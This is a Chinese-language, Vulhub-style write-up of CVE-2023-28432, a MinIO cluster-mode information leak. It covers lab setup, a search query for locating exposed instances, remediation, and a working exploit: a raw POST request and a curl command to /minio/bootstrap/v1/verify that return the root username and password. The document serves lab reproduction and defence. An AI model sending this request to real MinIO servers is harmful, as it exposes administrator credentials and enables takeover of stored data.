



# MinIO 集群模式信息泄露漏洞 CVE-2023-28432

## 漏洞描述

MinIO是一个开源对象存储系统。

在其`RELEASE.2023-03-20T20-16-18Z`版本（不含）以前，集群模式部署下存在一处信息泄露漏洞，攻击者可以通过发送一个POST数据包获取进程所有的环境变量，其中就包含账号密码`MINIO_ROOT_USER`和`MINIO_ROOT_PASSWORD`。

参考链接：

- https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q
- https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ

## 漏洞影响

```
MinIO <= RELEASE.2023-03-20T20-16-18Z
```

## 网络测绘

```
app="minio"
```

## 环境搭建

Vulhub执行如下命令启动一个MinIO集群，其中包含3个以集群模式运行的服务：

```
docker-compose up -d
```

集群启动后，访问`http://your-ip:9001`可以查看Web管理页面，访问`http://your-ip:9000`是API服务。



## 漏洞复现

这个漏洞存在于API节点`http://your-ip:9000/minio/bootstrap/v1/verify`上，发送如下数据包即可查看泄露的环境变量：

```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```



也可以直接 curl：

```
curl -XPOST http://your-ip:9000/minio/bootstrap/v1/verify
```

可见，其中包含`MINIO_ROOT_USER (accessKey)`和`MINIO_ROOT_PASSWORD (secretKey)`。使用这个账号密码，即可成功登录管理后台：

```
MINIO_ROOT_USER		minioadmin
MINIO_ROOT_PASSWORD	minioadmin-vulhub
```



## 漏洞修复

目前官方已发布安全修复版本，受影响用户可以升级到RELEASE.2023-03-20T20-16-18Z 及以上版本。

https://github.com/minio/minio/releases/tag/RELEASE.2023-03-20T20-16-18Z

临时修复方案，在 waf/ips 等安全产品上配置策略，拒绝所有 post 到 `/minio/bootstrap/v1/verify` 流量。
